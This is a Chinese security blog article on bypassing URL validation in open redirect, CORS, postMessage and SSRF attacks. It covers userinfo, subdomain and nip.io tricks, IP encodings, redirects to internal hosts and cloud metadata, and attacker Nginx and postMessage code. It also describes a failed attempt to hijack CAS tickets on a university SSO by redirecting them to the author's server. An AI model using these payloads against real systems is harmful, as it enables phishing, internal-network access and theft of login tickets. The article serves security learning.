








# 实战URL校验bypass:浅谈静态DNS解析姿势与CAS票据劫持案例-先知社区

> **来源**: https://xz.aliyun.com/news/18249  
> **文章ID**: 18249

---

# 实战URL校验bypass:浅谈静态DNS解析姿势与CAS票据劫持案例

## 前言

在URL跳转漏洞、CORS漏洞、PostMessage跨域漏洞、和SSRF漏洞的利用过程中，URL校验绕过是突破防御的关键环节。本文将试着简单回顾各类URL校验机制的缺陷与绕过，并重点介绍静态DNS解析（nip.io）另辟蹊径的绕过姿势

## 常见的绕过姿势

### 仅校验是否包含合法域名

假设后端校验代码是这样写的，只检查是否包含目标域名

```
if re.search(r'trusted\.com', url):
    return True
```

那么绕过的姿势可就太多了

* 目录混淆

https://evil.com/trusted.com

* 特殊符号

https://evil.com?trusted.com

https://evil.com#trusted.com

* 子域名绕过

https://trusted.com.evil.com

等等不再列举

### 仅校验前缀是否合法

比如后端校验URL的正则表达式可能是这样写的

^https?://trusted\.com

功能是匹配以trusted.com开头的URL

但是这样些就没有校验域名结束位置，仅仅校验了前缀是否合法，我们可以采用许多绕过方式

* 特殊符号绕过

https://trusted.com@hacker.com

比如请求https://trusted.com@hacker.com实际上会解析请求到https://hacker.com



适用于URL跳转漏洞，CORS漏洞，PostMessage跨域漏洞，以及SSRF漏洞的一些场景

* 子域名绕过

https://trusted.com.hacker.com

自行注册域名，把目标域名解析设置为域名的前缀

适用于URL跳转漏洞，CORS漏洞，PostMessage跨域漏洞的一些场景

### 仅校验后缀是否合法

* 特殊符号

https://evil.com?trusted.com

https://evil.com#trusted.com

还是经典的特殊符号绕过

适用于URL跳转漏洞，CORS漏洞，PostMessage跨域漏洞，以及SSRF漏洞的一些场景

* Nginx路由解析

https://attacker.com/trusted.com

仅仅校验后缀是否合法，利用Nginx路由解析，把/trusted.com/配置为一个目录名，示例配置：

```
server {
    listen 80;
    server_name attacker.com;  # 攻击者控制的域名

    # 将路径 "/trusted.com" 代理到恶意服务
    location /trusted.com {
        # 反向代理到攻击者的内部服务，比如SSRF利用
        proxy_pass http://malicious-backend:8080/;
        # 或者直接返回恶意响应，如伪造CORS头
        add_header Access-Control-Allow-Origin "*";
        return 200 "Malicious Content";
    }
    # 其他路径正常处理，伪装成合法服务
    location / {
        return 200 "Legitimate Page";
    }
}
```

1. **受害者请求**： 用户或后端服务访问 https://attacker.com/trusted.com，因URL包含trusted.com通过校验。
2. **实际路由**： Nginx将请求代理到malicious-backend:8080，返回攻击者控制的响应比如SSRF攻击内网等。

* 内置内网域名

http://localhost.trusted.com，http://internal.api.trusted.com，http://dev.trusted.com

有些时候，目标系统内部配置了私有DNS解析，例如将\*.trusted.com解析到内网IP时，我们就可以去寻找目标的这些自定义的内网域名，利用目标自身的DNS解析配置来绕过

除了上面提到的几种场景，针对于SSRF漏洞场景的绕过，还有许多特有的绕过姿势：

### 本地IP校验绕过

* 编码绕过

|  |  |  |
| --- | --- | --- |
| 攻击类型 | 示例 | 解析结果 |
| 八进制编码 | http://0177.0.0.1 | 127.0.0.1 |
| 十六进制编码 | http://0x7f000001 | 127.0.0.1 |
| 十进制编码 | http://2130706433 | 127.0.0.1 |
| IPv6简写 | http://[::] | ::1 |
| IPv4映射IPv6 | http://[::ffff:127.0.0.1] | 127.0.0.1 |

绕过原理就是利用了127.0.0.1有多种表现形式，后端可能只是单一地黑名单校验，疏忽了一些可以解析成内网IP的表现形式

仅适用于SSRF漏洞，限制了常见的内网IP地址等等场景

* 重定向机制

http://attacker.com/redirect.php,http://attacker.com/redirect.html

当目标系统（如服务器端请求SSRF）对用户输入的URL进行严格校验（如禁止内网IP、黑名单域名等），但允许访问外部域名并跟随HTTP 3xx重定向时，攻击者可以分两步绕过：

1. **首次请求合法域名**：提供一个通过校验的URL（如http://attacker.com/redirect.php）；
2. **服务端重定向到内网**：在该URL的响应中返回302/301跳转，指向内网地址（如http://192.168.1.1/admin）。

由于部分SSRF实现仅校验初始URL，而实际请求会跟随重定向，从而绕过限制。

示例配置：

```
<?php
header("Location: http://192.168.1.1:6379", true, 302);
exit;
?>
```

### 未标准化处理的校验

比如，如果正则是这样写的，限制太过于宽松，.\*导致可以中间插入任意字符

^https?://.\*trusted\.com

* 域名混淆

https://fake-trusted.com

* 特殊符号

https://attacker.com?trusted.com

上面简单列举了一些常见的绕过姿势，目的是抛砖引玉，必然有许多姿势笔者没有列举全，欢迎师傅们在评论区补充！

## 常见的绕过示例

### URL跳转漏洞绕过示例

场景：后端校验不完整，允许跳转到包含trusted.com的任意URL

**特殊符号绕过**

* https://trusted.com@evil.com/phishing-page

实际跳转到evil.com，但校验时匹配了trusted.com。

**子域名+路径混淆**

* https://trusted.com.attacker.com/login

用户以为访问的是trusted.com的子域名，实际跳转到攻击者控制的域名。

**Nginx路由解析利用** 构造跳转链接：

* https://attacker.com/trusted.com/redirect?url=phishing.com

Nginx配置将/trusted.com路径代理到恶意页面，绕过校验。

### CORS漏洞绕过示例

场景：后端校验Origin头不严格，允许部分跨域请求

* **特殊符号**

```
Origin: https://attacker.com?trusted.com
Origin: https://trusted.com@attacker.com
Origin: https://attacker.com#trusted.com
Origin: https://attacker.com/trusted.com
```

**子域名欺骗** 伪造Origin头：

* Origin: https://api.trusted.com.attacker.com

后端可能错误信任该Origin，返回Access-Control-Allow-Origin: \*。

* **重定向绕过** 请求https://attacker.com/cors-bypass，返回302跳转到https://trusted.com/api，利用浏览器跟随跳转的特性绕过Origin校验。

### PostMessage跨域漏洞绕过示例

场景：目标页面未校验postMessage的origin或校验逻辑缺陷

**宽松的****origin****校验** 攻击者页面发送消息：

* window.opener.postMessage("malicious\_data", "\*");

若目标页面监听消息时未校验origin，可导致数据泄露或DOM操作。

**子域名匹配缺陷** 目标代码：

* if (event.origin.endsWith("trusted.com")) { /\* 信任消息 \*/ }

攻击者注册域名eviltrusted.com，发送消息绕过校验。

**iframe嵌套+路径混淆** 构造URL：

* https://trusted.com.attacker.com/fake-page

嵌入iframe并发送消息，利用目标对子域名的信任。

* **Nginx路由解析利用** 构造origin：

https://attacker.com/trusted.com/

Nginx配置将/trusted.com路径代理到恶意页面接收窃取数据，同时绕过校验。

### SSRF漏洞绕过示例

场景：限制内网IP但校验逻辑不完善

**重定向链** PHP脚本：

* header("Location: http://169.254.169.254/latest/meta-data/", true, 302);

请求http://attacker.com/redirect.php，跟随跳转到AWS元数据接口。

* **非常规IP编码**

```
http://0x7f000001/admin    # 十六进制127.0.0.1
http://2130706433/api      # 十进制127.0.0.1
```

绕过黑名单字符串匹配。

## 问题提出

**URL合法校验时，过滤了一切特殊字符，且是前缀域名校验，我们该怎么绕过呢？**

说到校验前缀，我们马上想到了：

https://trusted.com@hacker.com

但是这里又不允许使用一切特殊字符，于是我们又想到了子域名绕过：

https://trusted.com.hacker.com

但是这个方法有一点小麻烦，需要自己配置域名解析，不是很好用

那么还有其他办法吗？

**有的兄弟有的，可以使用静态DNS解析服务--nip.io**

```
import java.util.regex.Pattern;

public class VulnerableUrlValidator {
    // 不安全的校验：仅检查前缀
    public static boolean isTrustedUrl(String url) {
        return url.matches("^https?://trusted\.com.*");
    }

    public static void main(String[] args) {
        // 测试用例
        String[] testUrls = {
            "https://trusted.com",                  // 合法
            "https://trusted.com/path",             // 合法
            "https://trusted.com@evil.com",         // 尝试绕过（特殊字符被过滤）
            "https://trusted.com.evil.com",         // 子域名绕过(有点麻烦)
            "https://trusted.com.127.0.0.1.nip.io"  // nip.io绕过
        };

        System.out.println("=== 不安全的校验结果 ===");
        for (String url : testUrls) {
            System.out.printf("%-40s -> %s%n", url, isTrustedUrl(url));
        }
    }
}
```

## 另辟蹊径的绕过姿势：静态DNS解析

### nip.io的特性

nip.io是一个将任意域名，按照它自定义的DNS解析规则，解析为对应IP的静态DNS解析服务，其主要模式为：

```
nip.io将<anything>.<IP>.nip.io解析为对应的IP地址:

[IP].[nip.io] → [IP]
127.0.0.1.nip.io → 127.0.0.1
example.10.0.0.1.nip.io → 10.0.0.1
example-127-0-0-1.nip.io → 127.0.0.1
```

而且支持多种IP格式：

* 点分十进制：192.168.1.1.nip.io
* 十六进制：0xC0A80101.nip.io
* 十进制：3232235777.nip.io

可以查看它的官网 [https://nip.io](https://nip.io/)，学习使用更多的解析规则



```
10.0.0.1.nip.io maps to 10.0.0.1
192-168-1-250.nip.io maps to 192.168.1.250
0a000803.nip.io maps to 10.0.8.3

app.10.8.0.1.nip.io maps to 10.8.0.1
app-116-203-255-68.nip.io maps to 116.203.255.68
app-c0a801fc.nip.io maps to 192.168.1.252
customer1.app.10.0.0.1.nip.io maps to 10.0.0.1
```

### 演示nip.io解析

具体演示一下就很清晰了，打开cmd

比如：

1. 请求127.0.0.1.nip.io 实际会被解析为 127.0.0.1



1. 请求<www.baidu.com.127.0.0.1.nip.io> 实际还是会被解析为 127.0.0.1



**于是这种解析特性就能帮助我们绕过仅仅只对域名前缀校验的场景**

## 静态DNS解析绕过示例

针对不同漏洞场景下利用nip.io静态DNS解析特性的绕过示例：

### **URL跳转漏洞绕过**

场景：仅校验域名前缀包含trusted.com

**nip.io构造恶意域名**

* https://trusted.com.1.2.3.4.nip.io

实际解析到1.2.3.4，但校验时匹配了trusted.com前缀。

**结合路径混淆**

* https://trusted.com@1.2.3.4.nip.io/admin

浏览器实际访问http://1.2.3.4/admin，绕过跳转目标校验。

### **CORS漏洞绕过**

场景：后端校验Origin头前缀是trusted.com

* **伪造Origin头**

```
GET /sensitive-data HTTP/1.1
Origin: https://trusted.com.192.168.1.1.nip.io
```

后端误判为合法trusted.com子域名，返回Access-Control-Allow-Origin。

* **Nginx代理伪装** Nginx配置：

```
# 更安全的Nginx恶意配置示例
server {
    listen 80;
    server_name trusted.com.127.0.0.1.nip.io;
    
    # 必须覆盖Host头否则后端服务可能拒绝
    proxy_set_header Host $host;
    
    location / {
        # 需要同时伪造CORS头和内容
        add_header Access-Control-Allow-Origin "https://trusted.com";
        add_header Vary "Origin";
        proxy_pass http://127.0.0.1:8080;
    }
}
```

攻击者诱导用户访问该域名，窃取跨域数据。

### **PostMessage跨域漏洞绕过**

场景：目标校验event.origin前缀是trusted.com

* **恶意页面嵌入iframe**

```
// PostMessage攻击示例
const iframe = document.createElement('iframe');
iframe.src = 'http://trusted.com.1.2.3.4.nip.io';
document.body.appendChild(iframe);

iframe.onload = () => {
  // 精确指定targetOrigin避免被过滤
  iframe.contentWindow.postMessage('payload', 'http://trusted.com.1.2.3.4.nip.io');
};
```

发送消息时event.origin为http://trusted.com.1.2.3.4.nip.io，绕过前缀子域名校验。

### **SSRF漏洞绕过**

场景：黑名单校验域名

**直接访问内网服务**

* http://redis.192.168.1.1.nip.io:6379

解析为内网Redis服务，绕过IP黑名单。

* **组合重定向利用**

请求合法URL：

1. http://trusted.com.1.2.3.4.nip.io/redirect

服务端返回302跳转到内网：

2. Location: http://192.168.1.1/admin

## nip.io的局限性

1. 部分企业网络会拦截\*.nip.io域名
2. 需要目标服务支持Host头覆盖
3. 不支持HTTPS证书验证，需自签名证书

## 实战案例

### 漏洞发现

1. 某大学的统一身份认证平台，使用的是某安信的webvpn服务，很多大学都采用的同一套vpn系统


1. 观察此时的URL

<http://sso-xxxx-edu-cn-s.webvpn.xxxxx.edu.cn:8888/authserver/login?service=http://test.xxxx.edu.cn/test/>

发现service参数值是一个URL，还是内网的，那么根据经验判断，这个service对应的URL就是内网的某个服务，只要我们输入正确的密码通过SSO认证后，我们就会被重定向到这个内网服务test里去

1. 那么我们的测试思路就是看这个service参数是否可控，先直接把域名替换为<www.baidu.com>，然后刷新页面

?service=<http://www.baidu.com/test/>

发现提示服务未授权，说明这个SSO此处是校验了这个service是否是已经注册过的合法的服务的域名


那我们尝试绕过看看，能不能让他既通过服务域名校验，实际又跳转到另一个攻击者可控的域名？

1. 于是我们先测试它是怎么进行校验url是否合法的？利用上文介绍的方法把原本域名置后，测试是否校验的是后缀域名

?service=[http://www.baudu.com?test.xxxx.edu.cn/test/](http://www.baudu.com/?test.xxxx.edu.cn/test/)

?service=<http://www.baudu.com/test.xxxx.edu.cn/test/>

?service=[http://www.baudu.com#test.xxxx.edu.cn/test/](http://www.baudu.com/#test.xxxx.edu.cn/test/)

?service=<http://www.baudu.com.test.xxxx.edu.cn/test/>

经过测试，都提示服务未授权，那么可以排除校验后缀的情况，猜测是校验的前缀，那么我们让前缀域名是合法的，在后缀上做文章测试


1. 利用上文介绍的方法把原本域名置前，测试是否校验的是前缀域名

?service=<http://test.xxxx.edu.cn@www.baidu.com/test/>

使用@特殊符号解析，成功通过了域名校验！


但是如果后面加固了，不让使用特殊符号，我们还可以使用上文介绍的nip-DNS静态解析服务来绕过

?service=<http://test.xxxx.edu.cn.nip.io/test/>

也是通过的


虽然我们通过了域名校验，但是还需验证一下能不能成功跳转呢？

输入搞到的学号加密码，登录SSO，payload：?service=<http://test.xxxx.edu.cn@www.baidu.com/test/>



发现成功跳转到百度的域名，漏洞存在！



### 深入思考

但是光是一个URL跳转，这里除了钓鱼感觉也没啥用了，很鸡肋啊！

不过相信师傅们也注意到了，这个URL跳转不是单纯的跳转到 <www.baidu.com/test/> 这么简单，后面还跟了一个ticket参数，并且有复杂的参数值！

<www.baidu.com/test/?ticket=ST-xxxxxx-xxxxx-xxxxx--xxxxxxxxxxxxxx-yyyy>

这个ticket=ST……是什么呢？

这一串 ticket=ST-763536-CDQgs-… 其实就是 CAS（中央认证服务，Central Authentication Service）生成给客户端的**Service Ticket（服务票据）**简要来说：当我在 sso-xxxx-edu-cn-s.webvpn.xxxx.edu.cn:8888/authserver/login 上完成认证后，CAS 会给我颁发一个唯一的、一次性的票据，形式就是 ST-xxx。它表示“我已经在 CAS 上成功登录，可以用这个票据去换取对某个具体应用（Service）的访问授权”。

**Service Ticket 的校验流程**

浏览器跳转到我在登录时传给 CAS 的 service 参数对应的 URL（ http://test.xxxx.edu.cn/test/login.action，但由于我走了 webvpn，所以实际请求的是 https://test-xxxx-edu-cn.webvpn.xxxx.edu.cn:8888/test/?ticket=…）。

应用（test系统）收到带 ticket 的请求后，会向 CAS 的 /serviceValidate 接口去验证这个票据是否有效，并且会校验：

1. **该票据确实由 CAS 颁发给同一个** **service**
2. **票据未被使用过且在有效期内。**

验证通过后，CAS 告诉应用“这张票是真实的”，同时这张票就被标为“已消费”——接下来再用它就验不过了。

那么看到这里我们是不是有一个思路了，我们可以打**URL重定向+CAS单点票据劫持组合拳**试试：

既然我们可控service，那么把payload改成这样，让其跳转到我的vps地址，而不再是原service [http://test.xxxx.edu.cn](http://test.xxxx.edu.cn/)

http://sso-xxxx-edu-cn-s.webvpn.xxxxx.edu.cn:8888/authserver/login?service=http://test.xxxx.edu.cn@my\_vps\_ip/test/

使用这样的URL登录SSO之后，票据就会发送到我的VPS上去，我的vps开一个apache服务，就能记录http请求日志，日志里能看到请求的票据值，完成对ticket的劫持

那么我劫持到这个ticket，在该CAS配置不安全的特定情况下，能成功通过CAS认证，并尝试对受害者权限完成接管：

1. 构造好登录URL，service实际指向我的VPS-ip：<http://sso-xxxx-edu-cn-s.webvpn.xxxxx.edu.cn:8888/authserver/login?service=http://test.xxxx.edu.cn@my_vps_ip/test/>
2. 把构造的登录URL，发送给受害者B登录
3. 受害者B先会登录webvpn，因为这是内网系统，然后会登录SSO，登录后，我的VPS里的Apache日志里，会劫持到B的ticket
4. 我先登录一个已有的A账号webvpn，然后不登录SSO，再直接使用B的ticket向service [http://test.xxxx.edu.cn](http://test.xxxx.edu.cn/) 发起验证请求，试图直接接管受害B的该service的权限

### 实践尝试

1. 构造URL地址，模拟受害者B，登录B的SSO：<http://sso-xxx-edu-cn-s.webvpn.xxxx.edu.cn:8888/authserver/login> ?service=<http://test.xxx.edu.cn@1.2.3.4/test/login.action>


1. 登录SSO后，查看Apache访问日志



1. 发现成功劫持到受害者B的Ticket

ticket=ST-755166-8JfxJdTBwihzXKxxxxxxxxxxxxxxxxxxxxxxxxxx

1. 登录攻击者A，登录A的SSO，尝试请求原始service，并携带B的Ticket：<http://test-xxxx-edu-cn.webvpn.xxxx.edu.cn:8888/test/home.action?ticket=ST-755166-8JfxJxxxxxxxxxxxxxxxxxxxxxxx>

但发现失败了， 未能够识别出目标票根，说明Ticket没有通过CAS校验



为什么呢？

下面解释为什么行不通……

### 为什么失败

【1】Service–Ticket 绑定机制

我把service=http://test.xxxx.edu.cn@my\_vps\_ip/test/ 用于“重定向到 Victim 的 ticket 会发给我 VPS”，但现代的 CAS（包括 Java CAS Server 以及大多数网关/WebVPN 代理）在校验 service 参数时**会先做 URL 规范化**（URL canonicalization）

1. **去掉 userinfo 部分**：http://user@host/... 会被解析成 host=user@host 而非把 user 当成用户名段。
2. **域名或路径不匹配**：规范化后它不再是应用最初注册给 CAS 的 http://test.xxxx.edu.cn/...，而变成 http://my\_vps\_ip/...，一旦不一致就被 CAS 拒绝。也就是安全实现的CAS其实会绑定service和票据，我使用service-A（构造的VPS地址）发起的请求得到的ticket，不能被用于验证service-B（合法service）获得授权

**Service–Ticket 绑定**

**原始请求**

* https://cas.example.com/authserver/login?service=http://foo.example.com/@1.2.3.4

这里 CAS 会先对 service 做 URL 解析。

绝大多数实现会把 user-info（即 @1.2.3.4）**当成主机名称的一部分**去解析，或者直接拒绝带有 user-info 的 URL。

要么被拒绝（报 “service 参数不合法”），要么它把整个 foo.example.com@1.2.3.4 当成一个非法的 host 名，连票都不颁发。

**真正颁发时映射的是“规范化后”的 service URL**

如果 CAS 真颁发了 ST，它一定是基于它内部认为合法、规范化后的那个 URL，存储映射关系：

* ticket=ST-xxxx ↔ service=http://foo.example.com/@1.2.3.4

* 它**绝不会**把 user-info 部分“拆开”成 foo.example.com 和 1.2.3.4 两段。

**校验时的严格比对**

* https://cas.example.com/serviceValidate?service=http://foo.example.com/&ticket=ST-xxxx

* CAS 会先把 service 规范化一遍——得到 http://foo.example.com/。

然后它去找 “ST-xxxx ↔ service=<http://foo.example.com/@1.2.3.4>” 这条映射，发现两边的 service 完全不一致，就直接拒绝：

* INVALID\_SERVICE (票据对应的 service 与请求时提交的 service 不吻合)

【2】Cookie会话隔离 + WebVPN 的双重认证

除此之外，还有一个更显而易见的问题是：

* 想要接管B用户的service权限，我还要绕过 WebVPN 的第一次认证，它本身也会给 B 浏览器一颗 VPN Session Cookie。
* 然后第二次去 CAS 登录，又是另一颗 Cookie。我在自己 VPS 上跑 Apache 能收到带票据的 GET，但那并不等于拿到了 B 的 CAS Session——我没有 B 的 CAS Session Cookie，无法在 /serviceValidate 调用时携带正确上下文

**也就是说，问题在于，获取到的只是 B 用户跳转用的一次性登录票据，获取了 ticket，不代表通过了 SSO：它不是 cookie，也不是 session token。它没有被我以原始绑定的 service使用。它无法让我在 A 的身份下变成 B。**

我之所以会去这样进行思考和尝试，是因为我错误地以为，劫持到了票据，即使在我没有合法的cookie，session的情况下，也能给我颁发cookie，session……

综上，必须同时满足：

1. **CAS 不做任何 service 规范化**，直接把 service 原文当作校验依据；
2. **目标 Service 未在用户的第一次回跳里消费这张票据**；
3. **要能在自己 VPS 上复刻一份等同于 B 浏览器在第一次消费时的 CAS Session Cookie**；
4. **票据在我拿到它之后仍在有效期内**。

### 探究利用前提

那么这个所谓的CAS单点劫持票据漏洞就本身就是一个不能利用的漏洞类型吗？其实也不是，只是我这里这个还算不上CAS单点劫持票据漏洞，因为本质上是通过URL重定向劫持到的票据，且票据校验的进行了安全的实现，无法被复用盗用，理论上其实这是单点登录系统里一种常见的攻击思路，但在实践中，真正能成功的场景非常有限，只有在这些**特定的漏洞**或**误配置**下，劫持才会得手——就像 JWT 如果不校验签名一样罕见，但在主流框架里根本就不会“默认不开签名” 而且，CAS 的 ST 校验本身就内置了消费、绑定、时效三重保障，所以在**合规配置+最新版**的 CAS 环境里，几乎不存在“截了就能用”的风险。

已知的可利用案例一般包括

1. **CAS 配置错误**，允许不合法 service 请求验证
2. **跳转逻辑错误**，攻击者构造带 ticket 的 URL 注入到合法页面中
3. **服务端使用的是 GET 请求中** **ticket=...** **参数来判定登录用户**，被攻击者复用
4. **ticket 未失效且可以多次使用**（非标准行为）
5. **存在 Open Redirect + 不校验 ticket 来源**

这类漏洞往往不是单纯的“劫持 ticket”就能搞定，而是配合：

* Ticket 验证逻辑缺陷、
* Cookie/session 发放错误、
* 或者服务端开放 serviceValidate 接口给前端使用

至此，全篇结束，感谢师傅们的阅读，晚辈技术浅薄，行文难免有疏漏，还请各位大佬前辈斧正，晚辈感激不尽~
